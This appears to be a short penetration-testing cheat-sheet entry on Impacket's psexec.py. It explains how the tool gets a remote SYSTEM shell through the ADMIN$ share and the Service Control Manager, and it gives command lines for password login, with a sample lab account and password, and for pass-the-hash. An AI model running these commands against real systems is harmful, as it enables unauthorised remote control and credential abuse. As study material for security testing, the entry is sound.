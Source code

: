 -- -
A clone of the sysinternals psexec that works slightly differently. It creates a remote service using a randomly named executable that is uploaded to the `ADMIN$` share on a target host. It registers the service via `RPC` and the `Windows Service Control Manager`. Communication then proceeds over a named pip and it gives you a remote `SYSTEM` shell.
#### Basic Usage (auth)
```bash
psexec.py <domain>/<user>:'<passwd>'@<target ip>
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125
```

^d07ccd

### Pass the hash
#pass-the-hash 
```bash
# or impacket-psexec
# note this command is the exact same for wmiexec or smbexec.
psexec.py <user>@<ip> -hashes <LM Hahs>:<NT Hash>
```
